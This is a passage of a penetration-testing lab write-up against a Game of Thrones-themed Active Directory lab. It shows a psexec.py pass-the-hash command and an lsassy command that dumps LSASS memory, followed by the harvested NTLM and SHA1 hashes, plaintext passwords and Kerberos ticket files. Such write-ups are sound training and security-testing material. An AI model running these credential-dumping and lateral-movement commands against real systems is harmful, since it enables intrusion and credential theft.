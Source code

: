 `psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.11 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`

![](../../../../images/Pasted image 20250107141138.png)

# LSASS Dump

LSASS (Local Security Authority Subsystem Service) is a process which enforces security policy on the system and handles authentication requests, user session management, and other security-related tasks.

Functions of LSASS:
- Authentication Management - Processes login requests for local and domain accounts, and validates user credentials (passwords, NTLM hashes, Kerberos tickets).
- Access Token Creation - After authentication is successful, it creates and assigns an access token to the user or process, defining what resources they can access.
- Kerberos and NTLM Authentication.
- Security Policy Enforcing - Enforces account lockout policies, password requirements and privilege assignments.

I dumped the LSASS memory by using the `lsassy` tool, and passing the hash of "eddard.stark".

`lsassy -u eddard.stark -p "" -H d977b98c6c9282c5c478be1d97b237b8 -d north.sevenkingdoms.local 10.4.10.22`

I dumped the following sensitive information from LSASS Memory:

### NTLM and SHA1 Hashes:

`10.4.10.22 - NORTH\CASTELBLACK$                               [NT] 0073abf6ce521277f2d1a148bc955aa9 | [SHA1] 057ab9db09f89ca2659dcffccbbbf363e896d5af`

`10.4.10.22 - NORTH\robb.stark                                 [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c`

`10.4.10.22 - NORTH\sql_svc                                    [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404`

`10.4.10.22 - NORTH\jon.snow                                   [NT] b8d76e56e9dac90539aff05e3ccb1755 | [SHA1] 1315aeb7efe3eed73b568094db32a90f2e24a248`

`10.4.10.22 - CASTELBLACK\localuser                            [NT] 8846f7eaee8fb117ad06bdd830b7586c | [SHA1] e8f97fba9104d1ea5047948e6dfb67facd9f5b73`

### Plaintext Passwords

`10.4.10.22 - north.sevenkingdoms.local\CASTELBLACK$           [PWD] wGC870k%/[bHDQHK$eg;5h$>4&t[NygJP]l16jqa?!CaL69P]!=%xk7@qkdZYk&J"61OyMAL+n=6UqSh]kIh:t7spo\t;KNWl>FtN\i<E=VYxG#5hG?mhN(b`

`10.4.10.22 - NORTH.SEVENKINGDOMS.LOCAL\sql_svc                [PWD] YouWillNotKerboroast1ngMeeeeee`

### Kerberos Tickets
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_77ebdaad_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_936064ee_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cd6de780_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d64496a2_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cbdc1708_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d6b61eec_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_63d16d9f_20250108071403.kirbi`